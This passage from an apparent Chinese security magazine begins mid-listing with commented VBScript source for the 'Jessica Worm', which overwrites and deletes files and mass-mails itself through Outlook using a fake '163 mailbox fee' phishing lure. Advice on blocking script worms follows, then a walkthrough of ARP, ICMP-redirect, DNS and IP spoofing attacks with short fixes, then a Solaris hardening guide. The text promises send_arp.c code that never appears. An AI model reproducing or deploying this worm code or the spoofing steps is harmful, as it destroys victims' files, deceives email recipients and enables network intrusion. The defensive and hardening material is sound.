            docu.Write vbscp '写入自己的代码，以破坏文件
            docu.Close '关闭文件
            filesys.DeleteFile f1.path, True '将文件删掉
        End If
    Next
End Sub

Sub FolderList(FolderSpec) '遍历目录的过程
    On Error Resume Next
    Dim f, f1, sf
    Set f = filesys.GetFolder(FolderSpec) '建立目录对象
    Set sf = f.SubFolders '得到子目录的集合
    For Each f1 In sf
        InfectFiles f1.path '遍历每个子目录
        FolderList f1.path '递归算法，以穷尽子目录，相当耗内存
    Next
End Sub

Sub RegCreate(RegKey, RegValue) '写注册表的过程
    Set RegEdit = CreateObject("WScript.Shell")
    RegEdit.RegWrite RegKey, RegValue
End Sub

Function RegGet(Value) '读注册表的过程
    Set RegEdit = CreateObject("WScript.Shell")
    RegGet = RegEdit.RegRead(Value)
End Function

Function FileExist(FileSpec) '判断文件是否存在的过程
    On Error Resume Next
    Dim msg
    If filesys.FileExists(FileSpec) Then '如果文件存在，返回 0 ; 否则 1
        msg = 0
    Else
        msg = 1
    End If
    FileExist = msg
End Function

Function FolderExist(FolderSpec) '判断目录是否存在的过程
    Dim msg
    If filesys.FolderExists(FolderSpec) Then '如果目录存在，返回 0 ; 否则 1
        msg = 0
    Else
        msg = 1
    End If
    FolderExist = msg
End Function

Sub MailWorm '发带毒邮件的过程
    On Error Resume Next
    Dim x, a, CtrLists, CtEntries, Malead, b, RegEdit, RegV, RegAd
    Set RegEdit = CreateObject("WScript.Shell")
    Set Out = WScript.CreateObject("Outlook.Application") '建立 Outlook 对象
    Set Mapi = Out.GetNameSpace("MAPI")
    For CtrLists = 1 To Mapi.AddressLists.Count '遍历每个邮件地址
        Set A = Mapi.AddressLists(CtrLists)
        x = 1
        RegV = RegEdit.RegRead("HKEY_CURRENT_USER\Software\Microsoft\WAB" & A)
        If RegV = "" Then
            RegV = 1
        End If
        If Int(A.AddressEntries.Count) > Int(RegV) Then
            For CtEntries = 1 To A.AddressEntries.Count '如果地址个数大于注册表中的键值
                Malead = A.AddressEntries(CtEntries)
                RegAd = ""
                RegAd = RegEdit.RegRead("HKEY_CURRENT_USER\Software\Microsoft\WAB" & Malead)
                If RegAd = "" Then
                    Set Male = Out.CreateItem(0)
                    Male.Recipients.Add Malead
                    Male.Subject = "163 电子邮箱收费通知" '邮件标题
                    Male.Body = vbCrLf & "亲爱的用户 : 您好 !163 电子邮局已于近日开始实施对免费电子邮件服务进行收费的计划 ,欢迎您前来租用 163 电子邮箱 ,一年的使用费用为人民币 100 元( 100M 空间 )。欲知详情，请仔细阅读附件中的申请步骤后进行申请租用注册。" '邮件的内容
                    Male.Attachments.Add sysdir & "\Table.htm.vbs" '邮件的附件
                    Male.Send '发邮件 !
                    RegEdit.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\WAB" & Malead, 1, "REG_DWORD"
                End If
                x = x + 1
            Next
            RegEdit.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\WAB" & A, A.AddressEntries.Count
        Else
            RegEdit.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\WAB" & A, A.AddressEntries.Count
        End If
    Next
    Set Out = Nothing '清空 out 变量
    Set Mapi = Nothing '清空 mapi 变量
End Sub

' rem Jessica Worm '病毒的名字
' rem I dedicate it to my angel - - Jessica
' '********** End **********
```

我用 Kv3000 查了一下，毫无反应；用软盘拷到同学那里，刚往硬盘上一拷，Norton AntiVirus 就报警发现未知邮件病毒。看来 Norton 的查未知病毒的功能还是可以令人放心的，建议有 Norton 的朋友赶紧升级病毒库；没有 Norton 的朋友可以用下面所说的方法来防范：

Jessica Worm 属于网络蠕虫病毒，由于蠕虫病毒大多是用 VBScript 脚本语言编写的，而 VBScript 代码是通过 Windows Script Host 来解释执行的，因此将 Windows Script Host 删除，就再也不用担心这些用 VBS 和 JS 编写的病毒了！从另一个角度来说，Windows Script Host 本来是被系统管理员用来配置桌面环境和系统服务，实现最小化管理的一个手段，但对于大部分一般用户而言，WSH 并没有多大用处，所以我们可以禁止使用它。另外，禁止 VBScript (JScript) 文件执行也是可行的办法之一。防范 VBS 蠕虫病毒可以使用以下几种方法：

### 方法一：

在 Windows98 中（NT4.0 以上同理），打开“控制面板”，打开“添加/删除程序”，点选“Windows 安装程序”，再鼠标双击其中的“附件”一项，然后再在打开的窗口中将“Windows Scripting Host”一项的“对勾”去掉，然后点“确定”，再点“确定”，这样就可以将 Windows Scripting Host 卸载。

### 方法二：

- 1. 点击“我的电脑”→“查看”→“文件夹选项”，在弹出的对话框中，点击“文件类型”，然后删除 VBS、VBE、JS、JSE 文件后缀名与应用程序的映射。
- 2. 在 Windows 目录中，找到 WScript.exe 和 JScript.exe，更改其名称或者干脆删除。

### 方法三：

1. 原理：大多数利用 VBscript 编写的病毒，自我复制的原理基本上是利用程序将本身的脚本内容复制一份到一个临时文件，然后再在传播的环节将其作为附件发送出去。为讲解方便，我们先来看个小例子。

假设有内容如下的 *.vbs 文件：

```vbscript
Set so = CreateObject("Scripting.FileSystemObject")
so.GetFile("c:\windows\winipcfg.exe").Copy "e:\winipcfg.exe"
```

就是这么两行就可以拷贝文件到指定地点。第一行是创建一个文件系统对象；第二行前面是打开这个脚本文件，c:\windows\winipcfg.exe 指明是这个程序本身，是一个完整的路径文件名。GetFile 函数获得这个文件，Copy 函数将这个文件复制到 e 盘根目录下。这也是大多数利用 VBscript 编写的病毒的一个特点。从这里可以看出上面这些功能的实现离不开“FileSystemObject”这个对象，因此禁止了“FileSystemObject”就可以有效地控制 VBS 病毒的传播。

- 2. 具体操作方法：用 `regsvr32 scrrun.dll /u` 这条命令就可以禁止文件系统对象。其中 regsvr32 是 Windows\system 下的可执行文件 regsvr32.exe。

### 方法四：防止病毒发作后“传播”

- 1. 禁止 Outlook 的自动收发邮件功能

当禁止了邮件的自动收发功能后，只有在按下“接收/传送”按钮时，OE 才开始接收或者发送邮件，这就避免了邮件的自动发送。虽然此项设置只对一部分 E-mail 病毒有效，但毕竟在一定程度上避免了 E-mail 病毒的扩散。

#### (1) Outlook 的设置方法

选择“工具”→“选项”→选择“发送”选项卡，取消“立即发送邮件(I)”选项。

选择“常规”选项卡，取消“启动时发送和接收邮件(S)”选项和“每(C)XX 分钟检查一次新邮件”选项。

#### (2) Outlook 2000 的设置方法

选择“工具”→“选项”→选择“邮件发送”选项卡，取消“连线时立即发送邮件”选项，并取消“自动检查新邮件”功能。

注意，关闭了自动检查邮件功能后，你可能会感到有些麻烦。

- 2. “通讯簿”里不要设置太多的名单

如果要发送新邮件，可以进入邮件的储存目录，打开客户发来的邮件，利用“回复”功能来发送新邮件（删除原有内容即可）如果客户或朋友较多，利用回复不方便，可以新建一个文本文件（自己做好备份，记得路径及名称，把客户的邮件地址一一列入其中，要发新邮件的时候，利用 CTRL + C，CTRL + V 把客户邮件地址粘贴到“收件人”栏中去，这样虽然麻烦一点，但是有效地防止了邮件病毒的进一步传播，须知现在的邮件病毒变种更新既多又快，防杀难免有漏洞，病毒一发作，就自动复制无数拷贝发送到“通讯簿”里所有的用户。用此法可以避免病毒的扩散，特别是有商业关系的客户不会因此受到牵连，发生误会从而影响合作关系。

- 3. 由于该蠕虫病毒利用文件扩展名做文章，所以要防范它就不要隐藏系统中已知文件类型的扩展名。

Windows 操作系统默认的是“隐藏已知文件类型的扩展名称”。显示所有文件类型的扩展名称的方法是 以 Windows98 系统为例：选择“控制面板”→“查看”→“文件夹选项”→“查看”→“文件和文件夹”，其中有一项目是“隐含已知文件类型的扩展名”，不选择该项目即可。当然 Windows 系统下对于一些特别的文件的扩展名，比如“垃圾虫 ScrapWorm”利用的是“SHS”扩展名称，具有该扩展名称的文件，即使用户使用了以上的方法还是不能显示出其扩展名称。解决的方法还是最好使用杀毒软件的查杀病毒或实时监测功能来预防类似的病毒的侵害。

- 4. 将系统的网络连接安全级别设置至少为“中等”，它可以在一定程度上预防某些有害的 JAVA 程序或者某些 ActiveX 组件对计算机的侵害。“控制面板”中的“Internet”项目中有“安全”标签，会出现“Internet”项的安全级别设置窗口，将其至少设置成“中等”级别。

- 5. 如果可能，尽量不要使用 Outlook 收发邮件；要注意为浏览器打上最新的补丁；对于通过脚本“工作”的病毒，可以采用在浏览器中禁止 Java 或 ActiveX 运行的方法来阻止病毒的发作。

- 6. 除此以外，要保证系统的安全，还要在自己的电脑中安装实时病毒防火墙软件，专业的防火墙软件能够保障电脑不受病毒的侵害。所谓“魔高一尺，道高一丈”，尽管新病毒层出不穷，但反病毒软件也在不断升级更新。安装实时病毒防火墙软件有百利而无一害，还是装一个吧。

只要用了以上的方法，作为个人用户就可以有效地防范网络蠕虫病毒，您还是快点试试吧。

编者按：到底先有的矛还是先有的盾现在已经无从考证，但有一点可以明确，矛与盾之间的关系一直是相互促进、共同发展，哪一方发展慢了，另一方也就跟着慢下来。其实黑客的攻击技巧和网管的防御手段也是这个关系。下文是一篇关于网络欺骗攻击的文章，但笔者在每种攻击技巧后面都注明了防御方法，很有意思。

文/GNn

## 一、ARP 欺骗

ARP 欺骗往往应用于一个内部网络，我们可以用它来扩大一个已经存在的网络安全漏洞。假如你已经攻陷了一个子网内的机器，其它的机器安全也将受到 ARP 欺骗的威胁。

让我们假设如下的网络结构

| hostname | ip | hw |
|---|---|---|
| A | 192.168.10.1 | MAC_A |
| B | 192.168.10.2 | MAC_B |
| C | 192.168.10.3 | MAC_C |

所有的主机在一个子网内。假设你是 A，你具有 root 权限，你的目标是侵入 C。通过种种手段你可以知道 C 信任 B，所以如果你能伪装成 B，那么你就能“合法”访问 C 了。

这里用到一个攻击程序—send_arp.c，一个非常有效的工具。他的作用是向网络上发送一个 ARP 包（ARP 回答，准确地说：由于这个协议是无状态的，即使在没有请求的时候也可以做出应答。请求同应答是一样的）。你可以把这个包定制成你想要的样子。比如设定 arp 包的目的地址、源地址、MAC 地址等。

当你进行 ARP 欺骗的时候，如果你不希望 A 的网卡对外发送 arp 请求，那么你可以用 `ifconfig eth0 -arp"` 关掉他的 ARP 协议。你希望 C 认为 B 的硬件地址是 MAC_A，所以你发送一个 ARP 应答，它的源地址是 192.168.10.2，源硬件地址是 MAC_A，目标地址是 10.0.0.3 和目标硬件地址是 MAC_C。现在，C 完全相信 B 的硬件地址是 MAC_A。当然 C 中缓存会过期，所以它会重新发送请求。多长时间发出请求，各个操作系统不同，但是大多来说是 40 秒钟左右。经常主动发送 ARP 应答，可以有效保持我们替他制定的 ARP 缓存（具体说明可以参看 W.Richard.Stevens 的 tcp/ip 详解卷一）。这样做的作用是针对各个 ARP 缓存处理方法的不同会带来问题的复杂性。一些操作系统（例如 Linux）会用向缓存地址发非广播的 ARP 请求来要求更新缓存。这种缓存更新会给你增加麻烦，会使你刚刚替 C 制定的 ARP 缓存被更改掉，所以必须避免此事发生。经常地向 C 发出应答数据，这样它就不会发出请求。对于 B 来说，它根本就没有机会来改变这一切。

所以过程是简单的。首先来设置网络接口别名 (`ifconfig eth0:1 10.0.0.2`)，添加 B 的 IP 地址并且打开 ARP 协议 (`ifconfig eth0 arp`) ——你需要设置你的 ARP 缓存，当没有 ARP 时，它不会工作。然后在正确的网络接口上设置到 C 的路由。再设置 C 的 ARP 缓存。最后，关掉网络接口的 ARP 功能。这样一切就 OK 了。现在，当你用 send_arp 把你定制的 arp 包发送出去后，那么，C 就会认为，你就是 B。一定要记住，要持续不断地向 C 和 B 发出 ARP 包。这种攻击方式就仅仅工作在局域网内。在上述试验中 C 如果是路由器，那么我们需要注意的问题是，大部分的路由是采用 static (静态) arp 缓存的，那么就无法实现我们的设想了，但如果是 dynamic (动态) 的，你可以轻易地冒充这个局域网内的机器去欺骗这个路由以外的系统了，甚至包括整个 internet，此时路由器是作为子网的 arp 代理工作的。所以目标可以是任何一台机器，但是你要伪装的机器，必须是这个局域网内的，还有关键的问题是使用了 dynamic (动态) arp 缓存。当然除了欺骗以外，你还可以用 ARP 作很多事，比如基于 arp 欺骗的 man_in_the_middle 窃听等等。下面是 send_arp.c 的代码：

解决方法：局域网内包括路由器使用静态 arp 缓存；

## 二、ICMP 重定向

另外一个比较有效的并且类似 ARP 欺骗的手段是利用另外一个正常的协议—ICMP 重定向。这种重定向通常是由你的默认路由器发来的，通告你有一个到达某一网络的更近的路由。最初，既可以通告网络重定向，也可以通告主机的重定向，但是现在，由于网络重定向被否决，仅剩下了主机重定向。正确的制作一个经过完整检查的 ICMP 包（必须由默认路由器发来，发向重定向机器，新的路由应该是一个网络的直接连接等等），接收者会对系统的路由表进行更新。

这是 ICMP 的安全问题。伪装一个路由器的 IP 地址是简单的，icmp_redir.c 这个程序正是做的这个工作。RFC 声明系统必须遵循这个重定向，除非你是路由器。实际上几乎所有的系统都支持这一点（除了 vanilla Linux 2.0.30）。

ICMP 重定向提供了一个非常有力的欺骗 & DoS 工具。不像 ARP 缓存更新，路由表不存在过期问题。并且不需要在本地网络，你可以从任何地方发起攻击。所以当目标接受了 ICMP 重定向之后（包确切抵达），目标就不会再和网络上的一些机器（并不是所有的机器，是一些与目标机器不在同一个网络上的机器）进行通讯。域名服务器会是一个非常好的攻击目标。解决办法：禁止系统接受 icmp 重定向包；

## 三、域名欺骗

非常简单，攻击者通过某种方法（比如攻破 DNS 服务器，DNS 欺骗，控制路由器）把目标机器域名对应的 IP 指到攻击者所控制的机器，这样所有外界对目标机器的请求将被重定向到攻击者的机器，这时攻击者可以转发所有的请求到目标机器，让目标机器进行处理，再把处理结果发回到发出请求的客户机。实际上，就是把攻击者的机器设成目标机器的代理服务器，这样，所有外界进入目标机器的数据流都在攻击者的监视之下了，攻击者可以任意窃听甚至修改数据流里的数据，收集到大量的信息。

下面列举这攻击的实现，假设被攻击者域名为 www.target.com，IP 为 111.111.111.111，另一台是我的 linux 系统 IP 为 111.111.111.112，我们所控制的 DNS 为 dns.stupid.com。

ok，我在被控制的 DNS -> dns.stupid.com 上把 www.target.com 的解析 IP 改为我的 linux 系统：111.111.111.112，然后在我的 linux 上运行：`./redir --lport=80 --caddr=111.111.111.111 --port=80 &`，所有用这个 DNS 解析的 www.target.com 都指向到我的机器然后重定向到了 111.111.111.111，我在我拥有的 linux 系统上运行一个 sniffer，可以抓取任何未通过加密的内容。

解决办法：重要站点直接用 IP 访问，确保 DNS server 的安全；

## 四、 IP 欺骗

IP 欺骗攻击的描述：

- 1. 假设 Z 企图攻击 A，而 A 信任 B，所谓信任指 `/etc/hosts.equiv` 和 `$HOME/.rhosts` 中有相关设置。注意，如何才能知道 A 信任 B 呢？没有什么确切的办法。建议就是注意搜集蛛丝马迹，厚积薄发。成功的攻击其实主要并不是因为技术上的高明，而是因为信息搜集的广泛详实。动用了包括社会工程学在内的多种手段，毕竟攻击只以成功为终极目标，不在乎手段的。
- 2. 假设 Z 已经知道了被信任的 B，应该想办法使 B 的网络功能暂时瘫痪，以免对攻击造成干扰。SYN flood 常常是一次 IP 欺骗攻击的前奏。请看一个并发服务器的框架：


listen 函数中第二个参数是 5，意思是在 initsockid 上允许的最大连接请求数目。如果某个时刻 initsockid 上的连接请求数目已经达到 5，后续到达 initsockid 的连接请求将被 TCP 丢弃。注意一旦连接通过三次握手建立完成，accept 调用已经处理这个连接，则 TCP 连接请求队列空出一个位置。所以这个 5 不是指 initsockid 上只能接受 5 个连接请求。SYN flood 正是一种 Denial of Service，导致 B 的网络功能暂时被耗尽。
- 3. Z 必须确定 A 当前的 ISN。首先连向 25 端口 SMTP 是没有安全校验机制的，与 1 中类似，不过这次需要记录 A 的 ISN，以及 Z 到 A 的大致的 RTT（round trip time）。这个步骤要重复多次以便求出 RTT 的平均值。现在 Z 知道了 A 的 ISN 基值和增加规律（比如每秒增加 128000，每次连接增加 64000），也知道了从 Z 到 A 需要 RTT/2 的时间。必须立即进入攻击，否则在这之间有其他主机与 A 连接，ISN 将比预料的多出 64000。
- 4. Z 向 A 发送带有 SYN 标志的数据段请求连接，只是源 IP 改成了 B，注意是针对 TCP 513 端口 rlogin。A 向 B 回送 SYN + ACK 数据段，B 已经无法响应，B 的 TCP 层只是简单地丢弃 A 的回送数据段。
- 5. Z 暂停一小会儿，让 A 有足够时间发送 SYN + ACK，因为 Z 看不到这个包。然后 Z 再次伪装成 B 向 A 发送 ACK，此时发送的数据段带有 Z 预测的 A 的 ISN + 1。如果预测准确，连接建立，数据传送开始。问题在于即使连接建立，A 仍然会向 B 发送数据，而不是 Z，Z 仍然无法看到 A 发往 B 的数据段。Z 必须蒙着头按照 rlogin 协议标准假冒 B 向 A 发送类似 `A >> ~/.rhosts` 这样的命令，于是攻击完成。如果预测不准确，A 将发送一个带有 RST 标志的数据段异常终止连接，Z 只有从头再来。

```
Z B - - - - SYN - - - - > A
B < - - - - SYN + ACK A
Z B - - - - ACK - - - - > A
Z B - - - - PSH - - - - > A
```

解决方法：修改与 ISN 相关的算法，Linux 下容易做到，关闭 R 系列服务。

## Solaris 操作系统的安全化

安装了补丁，系统就真正安全了吗？在理想社会或许是那样的，但实际上系统中依然有大量的 suid 的程序并且存在着目录所有者权限问题需要解决。要做的事情还多着呢。

### 基础工作

设置基线，以下是 SS20 上的情况：

```
# ps -ef
root      0   0  0 17  06  38          0  01 sched
root      1   0  0 17  06  41          0  00 /etc/init -
root      2   0  0 17  06  41          0  00 pageout
root      3   0  0 17  06  41          0  17 fsflush
root    200   1  0 17  07  37          0  00 /usr/lib/saf/sac  - t 300
root    203 200  0 17  07  37          0  00 /usr/lib/saf/ttymon
root     45   1  0 17  06  53          0  00 /usr/lib/devfsadm/devfseventd
root     49   1  0 17  07  04          0  00 /usr/lib/devfsadm/devfsadmd
root    201   1  0 17  07  37 console  0  00  - sh
root    184   1  0 17  07  36          0  00 /usr/sbin/nscd
root    168   1  0 17  07  35          0  00 /usr/sbin/syslogd
root    190   1  0 17  07  36          0  00 /usr/lib/utmpd
root    171   1  0 17  07  35          0  00 /usr/sbin/cron
root    841 839  0 19  07  03 console  0  00 ps -ef # netstat -an
UDP    IPv4
      Local Address           Remote Address         State

      *.514                              Idle
      *.*                               Unbound
TCP    IPv4
      Local Address           Remote Address         Swind Send - Q Rwind Recv - Q  State

      *.*             *.*             0         0 24576           0 IDLE
      *.*             *.*             0         0 24576           0 IDLE
```

好好检查一下基线，确认他们如你希望地工作。不存在任何你不希望运行的进程。

### 安装并且运行 TITAN

好了。设置完基线，接着让我们给机器加固。以前，大多数给 Solaris 机器加固的工作只能借助于非常少的工具——例如 Casper Dik（Solaris 2 FAQ 的维护者）的 fix-modes，大多工作不得不用手工完成。现在，这项工作变得非常容易，这些要归功于一个被称为 TITAN 的程序。

Brad Powell、Matt Archibald 和 Dan Farmer 完成了数年来人们一直手工完成的工作，并且使其脚本化——造福了大量没有时间或耐心去手工配置的人们，尤其是需要在几十台机器做同样的事情时。

下载并且解开 titan 后，在 titan 的目录下运行 Titan-Config。这将备份重要文件，确保在需要时恢复原来的设置。然后，此目录下将留下若干样例配置文件。我通常使用样例作为模板，启动锁住目录权限和文件权限选项。请注意，与实际需要相比较，那些权限设置比较苛刻，需要进行一些调整。例如，取消所有不在成员组中成员的 suid 程序的可执行权限。

这对于需要管理机器的有限的一部分人来说是有利的，另一个替代的方法是使用 Solaris 的文件 ACL，能使使用者很好地控制二进制代码的执行。你还可以考虑激活 BSM。

缺省情况下，titan 将自动激活 BSM。BSM 将产生大量的 LOG，尽量多的记录信息是一条好策略，但过多的 log 可能引起磁盘空间问题。

仔细想想，如果你不需要记录那么多，那就移除 bsm.sh 模块。

titan 一般是直接运行的。用 `-c` 开关运行，后接配置文件，允许你指定它将运行的配置文件。执行这一命令需要花一些时间，请耐心等待。需要说明的是，泰坦将使用 `/usr/ucb` 目录下的一些程序。BSD chown 经常被使用，所以有必要安装 SUNWscpu 包。或者，用一个简单的脚本模仿 BSD chown 行为：

```
# /bin/sh
chown `echo $1|sed 's/\./ /g'` $2
```

这可以模仿 titan 实际上使用的 BSD chown 的功能，没有安装整个 BSD 系统的需要。泰坦的作者为什么坚持使用 BSD 风格 chown？——而惟一的差别是使用 `.` 与 `/` 时：即设置用户和组。

### 重新启动！

在运行 titan 以后，你可能要重新启动系统，它确实改变一些 TCP/IP 堆栈设置，并且可能启用 BSM。

### 移除和 ACL 设置 suid 二进制代码

titan 在很多地方留下了 suid 程序。正在安装的机器仅仅经由一个串口终端存取，并且在它上的唯一交互的帐号是 ROOT。因此，许多 suid 程序和 guid 程序需要把他们的 suid 和 guid 移开。如果你要求远程存取，并且希望使用 sshd，就需要把 pt_chmod 作为根设置用户标识符。

这是在改变权限前留下的设置用户标识符二进制代码。

| 权限 | 链接数 | 所有者 | 组 | 大小 | 日期 | 路径 |
|---|---|---|---|---|---|---|
| `-r-sr-xr-x` | 1 | root | bin | 14692 | Sep 16 14:05 | `/usr/lib/fs/ufs/quota` |
| `-rws--x--x` | 1 | root | staff | 4436 | Sep 16 14:03 | `/usr/lib/pt_chmod` |
| `-r-sr-xr-x` | 1 | root | bin | 7528 | Sep 16 14:07 | `/usr/lib/utmp_update` |
| `-r-sr-xr-x` | 1 | root | sys | 28472 | Sep 16 14:03 | `/usr/bin/sparcv7/ps` |
| `-r-sr-xr-x` | 2 | root | bin | 11976 | Sep 16 14:07 | `/usr/bin/sparcv7/uptime` |
| `-r-sr-xr-x` | 2 | root | bin | 11976 | Sep 16 14:07 | `/usr/bin/sparcv7/w` |
| `-rwsr-x---` | 1 | root | staff | 17932 | Sep 16 13:58 | `/usr/bin/crontab` |
| `-rwsr-x---` | 1 | root | staff | 14600 | Sep 16 14:08 | `/usr/bin/eject` |
| `-r-sr-xr-x` | 1 | root | bin | 30596 | Sep 16 14:00 | `/usr/bin/login` |
| `-rwsr-xr-x` | 2 | root | staff | 104580 | Sep 16 14:02 | `/usr/bin/passwd` |
| `-r-sr-xr-x` | 1 | root | bin | 6968 | Sep 16 14:02 | `/usr/bin/pfexec` |
| `-rwsr-x---` | 1 | root | staff | 16992 | Sep 16 14:05 | `/usr/bin/rlogin` |
| `-rwsr-x---` | 1 | root | staff | 9536 | Sep 16 14:05 | `/usr/bin/rsh` |
| `-rwsr-x---` | 1 | root | staff | 18172 | Sep 16 14:05 | `/usr/bin/su` |
| `-rwsr-xr-x` | 2 | root | staff | 104580 | Sep 16 14:02 | `/usr/bin/yppasswd` |
| `-r-sr-xr-x` | 1 | root | bin | 13556 | Sep 16 14:07 | `/usr/sbin/sparcv7/whodo` |
| `-rwsr-x---` | 3 | root | staff | 18628 | Sep 16 14:09 | `/usr/sbin/allocate` |
| `-rwsr-x---` | 1 | root | staff | 48180 | Sep 16 13:57 | `/usr/sbin/ping` |
| `-rwsr-x---` | 1 | root | staff | 23564 | Sep 16 14:04 | `/usr/sbin/sacadm` |
| `-r-sr-xr-x` | 1 | root | bin | 36888 | Sep 16 13:57 | `/usr/sbin/traceroute` |
| `-rwsr-x---` | 3 | root | staff | 18628 | Sep 16 14:09 | `/usr/sbin/deallocate` |
| `-rwsr-x---` | 3 | root | staff | 18628 | Sep 16 14:09 | `/usr/sbin/list_devices` |
| `-rws--x--x` | 1 | qmailq | qmail | 19752 | Jan 12 01:10 | `/var/qmail/bin/qmail-queue` |
| `-rws--x--x` | 1 | root | other | 2052296 | Jan  7 01:23 | `/opt/local/bin/ssh1` |

正如你所看到的，有很多 suid 程序。我移除 su、utmp_update、ps、w 和 pt_chmod 以外的所有设置用户标识符。我把 ACL 放在 su、ps 和 w 上，允许“系统管理员”运行。

```
# getfacl su
# file    su
# owner   root
# group   sys
user        r-x
group       --x                 # effective   --x
mask      --x
other     --x
# setfacl -m user    admin   --x , other     ---
# getfacl su
# file    su
# owner   root
# group   sys
user        r-x
user    admin   --x             # effective   --x
group       --x                 # effective   --x
mask      --x
other     ---
```

我在 ps 和 w 上做了相同的操作。在另外的文章，我将讨论 ACL 更有效的使用。我们最后的结果如下：

```
-rws--x--x   1 root     staff        4436 Sep 16 14:03 /usr/lib/pt_chmod
-r-sr-xr-x   1 root     bin          7528 Sep 16 14:07 /usr/lib/utmp_update
-r-sr-x--- +  1 root     sys          28472 Sep 16 14:03 /usr/bin/sparcv7/ps
-r-sr-x--- +  2 root     bin          11976 Sep 16 14:07 /usr/bin/sparcv7/uptime
-r-sr-x--- +  2 root     bin          11976 Sep 16 14:07 /usr/bin/sparcv7/w
-rws--x--- +  1 root     staff        18172 Sep 16 14:05 /usr/bin/su
```

## 安装编译器

在详细说明安装细节之前，为了方便起见先安装一个编译器。我们将使用 gcc。其安装包可以在 www.sunfreeware.com 上找到，在安装完所有我们需要的软件后，可以根据需要将它移除。www.sunfreeware.com 有为 Solaris 2.5 到 8 的版本所需要的所有安装包。从那里下载 gcc 和 gzip 的同时，可以下载另外许多其他包。取决于想要花多少时间来编译这些包，从此站点可以获得帮助。如果没有对包进行编译就运行通常会有报错出现，如果可能的话，编译你自己的软件。

假设在 www.sunfreeware.com 获得一个编译器，首先安装 gzip 包，然后 gcc 包，使用标准的 pkgadd 功能。

## 安装 Apache

接着从 www.apache.org 下载 Apache，从 perl.apache.org 下载 modperl 和 Embperl。安装这些是很直接的。只要简单跟随在 mod_perl 目录下的指令即可。由于 Solaris 8 中有 perl 存在，不需要另外安装了。而 Solaris 8 以前的版本必须安装 perl。我选择了在 /export/home/apache 下安装。

## 安装后台工具、ucspi-tcp、qmail 和 dnscache

接着安装后台工具、ucspi-tcp、qmail 和各种 dnscache。这些都按照通常惯例安装。下面是所使用的启动脚本：

```
# /bin/sh
# Svscan script for running qmail-send via supervise
PATH=$PATH:/usr/local/bin
exec /var/qmail/rc
# /sbin/sh
# svscan startup script , placed in /etc/init.d , linked in /etc/rc2.d
case "$1" in
'start')
-x /usr/local/bin/svscan && exit 0
cd /usr/local/service PATH=$PATH:/usr/local/bin /usr/local/bin/svscan &
;;
'stop')
cd /usr/local/service
for i in `ls /usr/local/service`
do
svc -d $i
done
PATH=$PATH:/usr/local/bin
/usr/bin/pkill -x -u 0 -P 1 svscan
/usr/bin/pkill -x -u 0 -P 1 supervise
;;
*)
echo "Usage $0 start | stop"
exit 1
;;
esac
```esac
exit 0

按照安装指令直接安装即可。

最后，安装 dnscache，同样直接安装即可。其建立、安装，以及随之而来在程序编译中更为复杂的一些特性而言都是极为清晰的。其指导也是无所比拟的。由于同一台机器同时充当网络的本地 DNS 缓冲和服务器内部域名，我们要在同一机器上进行不同的配置。通常，需要一台独立的机器作为 DNS 缓存和提供域名服务。与运行主机文件相比较，我选择为网络安装缓存和一个域名服务器在一台独立的主机上。我仅仅在 IP 127.0.0.2 上建立了克隆回送设备 lo0:1。安装了 tinydns，每条指令，并且把它绑定在 127.0.0.2 上。然后对于外部缓存，我安装了为所有查找指向 127.0.0.2 的 .internal 网络。于是，按照设想，这两个应用程序应该在不同的机器上，特别是如果 DNS 服务器接受外部服务请求，而现在在同一台上就实现了。

## RPC 建议

如果准备运行 NFS、NIS、ToolTalk 或任何包括 SUN RPC 服务在内的东西，那么就需要运行 rpcbind。好了，众所周知，RPC 在大多数安全模型中传统地被认为是一个弱点。NFS 和 NIS 是从 /etc/rc2.d 和 /etc/rc3.d 的启动脚本中启动的，也就是 S71rpc、S73nfs.client 和 S15nfs.server。如果不需要它们，只要简单地 rm 启动脚本，或重命名它们到一些不由 S 开头的内容中去。要确保编辑 /etc/inetd.conf，并且取消任何远程的 RPC 服务。注意，如果移除 ttbdserverd 可能引起 OpenWindows 冻结，或桌面设置工具的崩溃。要防止以上情况发生，编辑 /usr/openwin/lib/openwin-sys 文件，并且移除 ttsession 程序的启动行。

## NFS 建议

为了 NFS 的安全，需要进行一些步骤使其更为完美。

首先，不要共享根文件系统。没有必要暴露整个机器。相反，确切决定哪些数据需要共享。别把所有的资料导出到全世界。多花些时间决定哪些机器能共享并不困难，而且它对于改善 NFS 的安全性有重要意义。试着设置 nosuid，使其只读，如果有绝对必要才能写：这有时候是件麻烦的事情，但是它能防止本地或远程机器上获得 ROOT 权限。（请注意，对于 NFS 来说，这无疑增加了使用的便利程度。）最后，在 NFS 的文件系统上使用 fsirand 程序。这将防止从 NFS 文件猜测信息。如果可以在安全的 RPC 上运行 NFS，将有助于认证，但 NFS 依然将在网络上被查看到。

## 远程管理建议

Solaris 2.6 启用了较好的 SNMP 和 DMI，同时也安装了 sadmind。SNMP 有许多著名的漏洞，特定的协议和在 SUN 上的特殊性。如果运行了 SNMP，记得要确保打上最新版本的补丁。这将解决一些问题，但此方式是有缺陷的——snmpd 不再支持读/写。此问题的后台程序是在 /etc/rc3.d/S76snmpdx 上运行的。将其改变为除 S 以外任何开头。而令一个问题是从 S77dmi 启动的 dmi，也在 /etc/rc3.d/ 下，如果不使用的话，将它移掉。sadmind 从 inetd 上运行，所以如果要关掉它，只要注释掉入口并且重启或者 HUP inetd。

## 怪异的服务

有很多服务在你不知晓的情况下被安装了。例如 nscd——域名服务缓存后台进程。这种服务是缓存普通的名字服务请求。这将缓存域名查询、密码文件、组文件和一些其他的文件。原意为想为普通的查询提供在机器上缓存。nscd 加快了普通 DNS 查询，并且帮助加速了像 NIS 和 NIS+ 的效率。禁用 nscd 能使某个程序崩溃，例如 Netscape。nscd 安全影响是未知的，尽管早期版本就有了明显的问题：过剩的缓存将导致 nscd segfaulting。在同一站点上进行大量的名字查找，这很快就引发了问题。另外，nscd 在缓存上使用的方法不是很明显的。如果 nscd 没有缓存查找的类型，可能会形成缓存病毒攻击。

## 增加可选项

是否允许远程存取？如果可能的话，仅仅允许存取以加密方式进行。最受欢迎的是 SSH。其代码彻底地被研究，并且所有的偶然性问题都浮出了水面，它比那些运行未加密、弱认证的协议（例如 TELNET）相比要好得多。

如果你必须运行 RPC 服务，使用 Wietse Venema 的安全 rpcbind。它提高了记载和 ACL 的能力。它甚至不基于 SUN 的 rpcbind 源代码，因此你不必担心有障碍。TCP wrapper 也对于需要运行的服务很有好处。

